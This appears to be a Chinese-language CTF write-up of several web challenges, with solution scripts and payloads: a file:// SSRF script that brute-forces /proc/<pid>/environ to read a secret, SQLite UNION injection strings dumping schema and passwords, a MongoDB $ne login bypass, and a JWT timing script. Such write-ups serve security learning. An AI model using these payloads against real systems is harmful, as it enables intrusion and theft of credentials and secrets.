





##  学到的东西

1. 从网络或者源代码的`js`中去搜索关键的信息
2. 怎么构造json数据，进行传输
3. 通过爆pid号可以获取进程的信息，熟悉了`/proc`目录下的东西

##  Apollo1337

这个题就是考的一个对信息的收集

首先根据题目描述就是需要一个`api`

在网络部分，找到`api/status?verbose=`

然后随便输入一个




根据一步一步的提示，进行`json`数据的输入






## curl up and read

`curl`就想到先用几个协议`file`进行尝试

`file://`可以任意文件读取

直接读取`/proc/self/environ`

看到是nodejs的环境变量，有flag的信息`FLAG=REDACTED`

```js
npm_config_user_agent=npm/8.11.0 node/v16.15.1 linux x64 workspaces/falseHOSTNAME=20c39cf42ef0
npm_node_execpath=/usr/bin/nodenpm_config_no
proxy=HOME=/rootOLD
PWD=/app
npm_package_json=/app/package.json
npm_config_userconfig=/root/.npmrc
npm_config_local_prefix=/appCOLOR=0
npm_config_metrics_registry=https://registry.npmjs.org/
npm_config_prefix=/usr
npm_config_cache=/root/.npm
npm_config_node_gyp=/usr/lib/node_modules/npm/node_modules/node-gyp/bin/node-gyp.js
PATH=/app/node_modules/.bin:/node_modules/.bin:/usr/lib/node_modules/npm/node_modules/@npmcli/run-script/lib/node-gyp-bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binNODE=/usr/bin/nodenpm_life
cycle_script=next start -p 1337
npm_lifecycle_event=startnpm_config_global
config=/usr/etc/npmrcnpm_config_init_module=/root/.npm-init.js
PWD=/appnpm_exec
path=/usr/lib/node_modules/npm/bin/npm-cli.js
npm_config_global_prefix=/usrnpm_command=run-script
FLAG=REDACTED
INIT_CWD=/app
EDITOR=vi
NODE_ENV=production__NEXT_OPTIMIZE_FONTS=true
```

看题目给出的源码

```js
const options = {
        timeout: 2000, // kill if the download takes longer than two seconds
        env: {...process.env, FLAG: 'REDACTED'} // even if CURL is somehow pwned, it won't have access to the flag
    }

    // download the requested webpage
    const output = execFileSync('curl', ['-s', pageParsed.url], options);
```

options的设置使得curl执行时会redacte掉当前进程环境变量中的FLAG

因为`curl`进行是题目最开始的进程发起的子进程

我们直接读取`curl`的父进程，父进程的环境变量应该是好的`Flag`

可以直接爆破pid或读`/proc/self/status`找到当前进程的ppid

```python
import requests
from base64 import b64encode

URL = 'http://1.14.71.254:28416/read/'

for i in range(1,100):
    payload = b64encode(b'{"url":"file:///proc/%d/environ"}' % i).decode("utf-8") #id=9
    r = requests.get(URL+payload)
    if "NSS" in r.text:
        print(i)
        print(r.text)
        break
```

## gullible by dovesign

先把首页鸟的照片下下来，然后上传抓包，改`EXIF信息`

存在一个SQLlite的注入

```
<rdf:li xml:lang="x-default">Coracias caudatus</rdf:li></rdf:Alt>
```

```sqlite
' UNION SELECT 1, sql, 3 FROM sqlite_schema LIMIT 1 OFFSET 1 --`
```

读取`employee_accts`中的password，得到flag

```sqlite
' UNION SELECT 1, password, 3 FROM employee_accts WHERE password like 'sdc%' LIMIT 1 OFFSET 0 --
```

## HuMongous Mistake

题目名称提示MongoDB，考虑nosql注入，尝试登录admin

```
username=admin&password[%24ne]=1
```

回显：Malformed string. Invalid length!

```
username=admin&password[%24ne]=1&password[length]=1
```

然后就是利用任意用户名注册登录后的`2FA`，放到admin账户上，实现一个逻辑漏洞

## lots of logs

遍历日志，根据提示是2018年

```python
import requests
import datetime

f = open('./all_logs.txt', 'a+')

base_url = "http://1.14.71.254:28305/logs/"

start = '2018-1-1'
end = '2018-12-31'

datestart = datetime.datetime.strptime(start, '%Y-%m-%d')
dateend = datetime.datetime.strptime(end, '%Y-%m-%d')

starturl = url = base_url + datestart.strftime('%Y/%#m/%#d/%a')+'.log'

while datestart < dateend:
    url = base_url + datestart.strftime('%Y/%#m/%#d/%a')+'.log'
    print(url)
    r = requests.get(url)
    f.write('\n' + url + r.text)
    datestart += datetime.timedelta(days=1)
```

在2018年发现缺少了6/10-6/12的日志

查看`6/13`号的日志



本地nc一下就有flag了



##  jawt that down!

找到`login.js`中找到用户的账号和密码

访问主页上的flag，`https://jawt.sdc.tf/s`，当jwt有效时显示`d`，失效后显示`Invalid Token: Access Denied`
只需要自动化足够快地请求就可以得到整个flag

```python
import requests

sess = requests.session()
URL = 'https://jawt.sdc.tf'
flag = '/s/'
while True:
    data = {"username":"AzureDiamond","password":"hunter2"} #In file /js/login.js
    r = sess.post(URL+'/login',data=data)
    print(flag)
    r1 = sess.get(f'{URL}{flag}')
    flag += r1.text + '/'
    if '}' in flag:
        break
print(flag.replace('/',''))
```

##  参考文章

http://47.97.156.232/index.php/archives/12/